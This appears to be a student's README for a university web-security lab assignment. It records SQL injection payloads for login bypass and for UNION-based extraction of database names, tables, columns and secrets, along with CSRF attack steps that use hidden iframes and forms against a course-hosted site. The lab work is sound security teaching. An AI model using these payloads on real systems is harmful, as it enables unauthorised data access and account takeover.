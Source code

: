 # MP2 - WebSec
##### Instructor: Adam Bates & Ling Ren
CP1 Deadline --- Wednesday, September 27th, 6:00PM

CP2 Deadline --- Thursday, October 6th, 6:00PM

## Project Setup
1. Download VMWare
2. Download Ubuntu 18.04 LTS (CS461 Virtual Machine) at [here](https://uofi.box.com/s/aqaixm5igvqbyxys7gpswxgcsf7nyqo6)
3. Setup the VM in VMWare 

## Build Project
None

## Implementation
#### 2.2.1.1
Type the following command in `Username`
```
victim
```
Type the following command in `Password`
```
' OR 1=1 -- 
```
#### 2.2.1.2
Type the following command in `Username`
```
victim
```
Type the following command in `Password`
```
\' OR 1=1 -- 
```
#### 2.2.1.3
Write a python script to mine `md5` hash

Type the following command to run the python script `2.2.1.3.py`
```
./2.2.1.3.py
```
The `passwd` got from the python script are
* `61873882145751551400929987756087961` [35-digit]
* `1107388038190758764683658965752877062` [37-digit]


#### 2.2.1.4
##### 1. Figure out how many columns there are in the table with the following command
```
' OR 1=1 ORDER BY 1; -- 
' OR 1=1 ORDER BY 2; -- 
' OR 1=1 ORDER BY 3; -- 
' OR 1=1 ORDER BY 4; -- 
' OR 1=1 ORDER BY 5; -- 
```
The last command will give you an error. Therefore, there are 4 columns in the table.

##### 2. Use the following command to get the `Database Name`
```
' UNION SELECT NULL,NULL,NULL,DATABASE(); -- 
```

##### 3. Use the following command to get the `Database Version`
```
' UNION SELECT NULL,NULL,NULL,version(); -- 
```
Or use the following alternative command
```
' UNION SELECT NULL,NULL,NULL,@@version; -- 
```

##### 4. Use the following command to get all `Table` in the Database
```
' UNION SELECT NULL,NULL,NULL,GROUP_CONCAT(TABLE_NAME) FROM information_schema.TABLES WHERE table_schema='proj2_inject3'; --
```

##### 5. Use the following command to get all `Column` in Table `HINT`
```
' UNION ALL SELECT NULL,NULL,NULL,GROUP_CONCAT(column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME='HINT'; -- 
```
The `column_name` got from Table `HINT` are _id_ and _message_

Use the following command to get `message` from Table `HINT` with `id=1`
```
' UNION SELECT NULL,NULL,NULL,message FROM HINT WHERE id='1'; -- 
```
The `message` from table `HINT` with `id=1` is _go to table SECRET and get a secret string from row with your md5(netid)_

Use the following command to get all `Column` in Table `SECRET`
```
' UNION ALL SELECT NULL,NULL,NULL,GROUP_CONCAT(column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME='SECRET'; -- 
```
The `column_name` got from Table `SECRET` are _hash_, _id_, and _secret_

Use the following command to get `md5(netid)`
```
./md5.py
```

Then, use the following command to get `secret` from Table `SECRET` with the `hash=md5(netid)`
```
' UNION SELECT NULL,NULL,NULL,secret FROM SECRET WHERE hash='3168622a73961f1d17b1a105be567177'; -- 
```

#### 2.2.2.1
Create <iframe> that displays nothing

<form> `action`=http://bungle-cs461.csl.illinois.edu/login

Log in with following infomation:
* `csrfdefense`=0
* `xssdefense`=5
* `username`=attacker
* `password`=l33th4x

#### 2.2.2.2
Create <iframe> that displays nothing

Go to original [`Bungle` website](http://bungle-cs461.csl.illinois.edu/)

Right click on search window, and click `Inspect Element`

The `name`=q

Right click on either `username` or `password` window, and click `Inspect Element`

<input type="hidden" name="csrf_token" value="9165db97e970e7d9facd256db1fdf2f8">

Submit 2 HTML <form> with function `submitForm()`
* Both of them use `target`=ifrm
* The first form use `action`=http://bungle-cs461.csl.illinois.edu/search
* The second form use `action`=http://bungle-cs461.csl.illinois.edu/login

## Developers
* Hongbo Zheng [NetID: hongboz2]
* Max Song [NetID: mcsong2]
